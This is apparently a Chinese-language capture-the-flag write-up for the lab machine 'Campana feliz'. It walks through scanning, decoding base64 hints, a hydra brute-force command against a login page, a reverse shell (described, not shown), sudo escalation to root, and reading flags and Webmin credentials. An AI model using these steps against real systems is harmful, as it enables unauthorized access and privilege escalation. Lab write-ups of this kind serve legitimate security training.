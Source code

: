 # Campana feliz

2025.02.26 https://thehackerslabs.com/campana-feliz/

[video](https://www.bilibili.com/video/BV1zMP5eBEib/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
8088/tcp  open  radan-http
10000/tcp open  snet-sensor-mgmt
```

先访问 http://192.168.5.40:8088/ 空页面，源码中有注释：

```
<!-- Q2FtcGFuYSBzb2JyZSBjYW1wYW5hCgpZIHNvYnJlIGNhbXBhbmEgdW5hCgpBc8OzbWF0ZSBhIGxhIHZlbnRhbmEKClZlcsOhcyBlbCBuacOxbyBlbiBsYSBjdW5hCg== -->
<!-- Q2FtcGFuYSBDYW1wYW5hIENhTXBBTkEgQ2FNcGFOYQo= -->
```

进行 base64 解码得到：

```
Campana sobre campana

Y sobre campana una

Asómate a la ventana

Verás el niño en la cuna
```

```
Campana Campana CaMpANA CaMpaNa
```

西班牙语进行翻译，在说一个名字 Campana 可能是个登陆用户名。gobuster 扫描 8088 发现页面 http://192.168.5.40:8088/shell.php 需要用户名和密码进行登陆。

访问 10000 端口跳转到 https://192.168.5.40:10000/ 显示的是 Webmin ，尝试了默认的 root 和 admin 凭据都不能登陆。

尝试了用这几个单词作为密码 Campana Campana CaMpANA CaMpaNa 在 8088 页面登陆 Campana 用户，但是都不对，只好尝试使用 rockyou：

```
hydra -t 32 -l campana -P /usr/share/wordlists/rockyou.txt 192.168.5.40 -s 8088 -f http-post-form "/shell.php:username=^USER^&password=^PASS^:F=Username or password invalid"

[8088][http-post-form] host: 192.168.5.40   login: campana   password: lovely
```

登陆成功，发现可以执行命令，执行反弹到 kali 上，发现 bob 用户，需要提权，sudo -l 发现：

```
(ALL) NOPASSWD: /bin/bash
```

直接提升到 root 权限,读取 user flag 和 root flag：

```
www-data@debian:/home$ sudo -u root /bin/bash
root@debian:/home# cd bon
bash: cd: bon: No such file or directory
root@debian:/home# cd bob
root@debian:/home/bob# ls
user.txt
root@debian:/home/bob# cat user.txt
R1aZp7qLdV8MnYX9bQ2wNC5kW3TYoJV
root@debian:/home/bob# cd /root
root@debian:~# ls
root.txt  webmin-1.920	webmin-1.920.tar.gz
root@debian:~# cat root.txt
u5T7vCnO1pQ2zRwX8gLdN6bJyK3mVxY
```

最后在执行命令的时候也可以读取到 webmin 的配置文件从而获得 webmin 的登陆凭据：

```
root@debian:/opt# cat 'CMS Webmin.txt'
url: https://IP:10000
login: santaclaus / FelizNavidad2024
```

然后在左侧 Tools -> CommandShell 中也可以执行命令，不过这里估计想不到有这么个用户凭据文件。
